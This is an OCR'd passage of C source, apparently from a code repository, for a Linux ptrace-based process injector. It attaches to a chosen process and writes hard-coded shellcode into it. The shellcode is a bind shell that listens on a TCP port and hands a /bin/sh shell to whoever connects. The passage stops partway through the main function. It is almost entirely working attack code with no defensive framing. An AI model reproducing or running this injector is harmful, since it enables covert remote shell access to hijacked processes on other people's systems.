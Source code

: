 <div class="md-code" style="width:100%">

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 87

unsigned char *shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";

int inject_data(pid_t pid, unsigned char *src, void *dst, int len)
{
    int i;
    uint32_t *s = (uint32_t *)src;
    uint32_t *d = (uint32_t *)dst;

    for (i = 0; i < len; i += 4, s++, d++)
    {
        if ((ptrace(PTRACE_POKETEXT, pid, d, *s)) < 0)
        {
            perror("ptrace(POKETEXT):");
            return -1;
        }
    }
    return 0;
}

int main(int argc, char *argv[])
{
    pid_t target;
    struct user_regs_struct regs;
    int syscall;
    long dst;
    if (argc != 2)
    {
        fprintf(stderr, "Usage:\n\t%s pid\n", argv[0]);
        exit(1);
    }

    target = atoi(argv[1]);
    printf("+ Tracing process %d\n", target);

    if ((ptrace(PTRACE_ATTACH, target, NULL, NULL)) < 0)
    {
        perror("ptrace(ATTACH):");
        exit(1);
    }
    printf("+ Waiting for process...\n");
    wait(NULL);
    printf("+ Getting Registers\n");

    if ((ptrace(PTRACE_GETREGS, target, NULL, &regs)) < 0)
    {
```